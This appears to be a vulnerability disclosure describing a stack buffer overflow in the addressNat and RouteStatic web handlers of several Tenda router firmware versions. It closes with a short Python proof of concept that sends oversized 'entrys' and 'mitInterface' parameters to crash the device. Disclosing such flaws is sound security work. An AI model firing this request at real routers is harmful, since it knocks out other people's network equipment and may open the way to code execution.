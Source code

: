 # Tenda routerstatic api vulnerability
These vulnerability lie in the /goform/addressNat or /goform/RouteStatic page which influence the device: FH452, F451, F453, CH22. And influence the lastest version of
FH451_V1.0.0.5,  FH451_V1.0.0.7, FH451_V1.0.0.9, F451_V1.0.0.7, F451_V1.0.0.9, F453_V1.0.0.3, CH22_V1.0.0.1. 
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function fromAddressNat or fromRouteStatic.
The example is as follows:

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/all/vlun.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## PoC
For example:
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to @XYlearn and @Funcy_kilar from Fudan University, Guangzhou University.
